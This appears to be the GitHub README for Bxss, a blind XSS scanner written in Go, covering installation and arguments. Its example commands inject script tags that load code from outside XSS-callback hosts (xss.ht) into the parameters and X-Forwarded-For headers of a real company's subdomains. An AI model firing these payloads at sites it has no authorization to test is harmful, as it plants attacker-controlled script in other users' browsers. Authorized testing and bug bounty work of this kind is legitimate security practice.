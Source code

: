 <h1 align="center">
  <br>
<img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/blinded-drib.jpg" width="200px" alt="Bxss">
</h1>
<h1 align="center">
Bxss - Blind XSS Scanner

[![Version](https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square)](https://github.com/ethicalhackingplayground/bxss/releases/latest)
[![License](https://img.shields.io/github/license/ethicalhackingplayground/bxss?style=flat-square)](https://github.com/ethicalhackingplayground/bxss/blob/master/LICENSE)
[![Go Report Card](https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square)](https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss)
[![Go Reference](https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg)](https://pkg.go.dev/github.com/ethicalhackingplayground/bxss)

## </h1>

## Description

Blind XSS Scanner is a tool that can be used to scan for blind XSS vulnerabilities in web applications.

---

### Features

- Inject Blind XSS payloads into custom headers
- Inject Blind XSS payloads into parameters
- Uses Different Request Methods (PUT,POST,GET,OPTIONS) all at once
- Tool Chaining
- Really fast
- Easy to setup

## Install

```
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## Arguments

| Argument              | Description                              | Default      |
| --------------------- | ---------------------------------------- | ------------ |
| `-appendMode`         | Append the payload to the parameter      |              |
| `-concurrency int`    | Set the concurrency                      | 30           |
| `-header string`      | Set the custom header                    | "User-Agent" |
| `-headerFile string`  | Path to file containing headers to test  |              |
| `-parameters`         | Test the parameters for blind xss        |              |
| `-payload string`     | The blind XSS payload                    |              |
| `-payloadFile string` | Path to file containing payloads to test |              |

---

## Demonstration

[![asciicast](https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg)](https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm)

---

### Blind XSS In Parameters

```bash
subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters
```

### Blind XSS In X-Forwarded-For Header

```bash
subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"
```

---

**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://buymeacoffee.com/zoidsec" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
